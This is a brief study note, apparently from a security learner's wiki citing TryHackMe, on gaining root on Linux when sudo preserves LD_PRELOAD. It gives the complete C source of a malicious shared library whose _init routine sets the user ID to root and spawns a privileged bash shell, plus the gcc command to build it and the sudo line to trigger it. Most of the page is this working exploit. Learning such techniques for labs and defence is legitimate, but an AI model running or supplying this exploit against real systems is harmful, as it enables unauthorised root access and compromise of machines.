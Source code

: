 # Exploiting LD_PRELOAD

author:: Nathan Acks  
date:: 2021-10-31

If LD_PRELOAD is preserved by sudo, then it’s possible to use a malicious dynamic library to gain root access — just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`. Preserved environment variables are listed by `sudo -l`.

A simple malicious library (perhaps *the* simplest) that can exploit the LD_PRELOAD trick is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -shared -nostartfiles \
    -o /path/to/malicious.so /path/to/malicious.c
```

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Enumerate “sudo” Access](enumerate-sudo-access.md)
